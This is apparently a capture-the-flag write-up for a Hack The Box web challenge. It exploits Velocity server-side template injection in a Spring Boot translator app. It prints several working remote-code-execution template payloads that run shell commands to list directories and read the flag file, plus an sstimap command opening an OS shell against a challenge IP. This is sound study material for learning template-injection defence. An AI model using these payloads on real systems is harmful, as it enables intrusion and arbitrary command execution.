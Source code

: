 ## Title

Labyrinth Linguistic

## Description

You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Solution

Looking at the config files, it is a java application.
Server: `java -jar /app/target/server.jar`
It uses spring boot(pom.xml).
The only file that matters is main.java.

Basically this is a website that receives a string and translate it to another language.
what the user add to the parameter it will inject into the template using velocity.
Searching for "velocity template injection" we found [this](https://antgarsil.github.io/posts/velocity/).
TEsting for the vulnerability with `#set ($run=1 + 1) $run ` we get `2` so we know it is vulnerable.

Every website points to the same RCE payload and it seems like I cant use it.
Payload: 
```java
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

After some time i found this [website](https://iwconnect.com/apache-velocity-server-side-template-injection/), with the following template:

```
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat+/flagabf03b9138.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

First I have executes `ls /` then with the flag name i did `cat flag....txt`.
FLag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`

## Other solutions

```
#set($e="e");$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("whoami")
```

``` 
python3 sstimap.py --url http://94.237.49.166:35229/ -f --os-shell --engine velocity
```




## References

- https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection#velocity-java
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity
- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- 


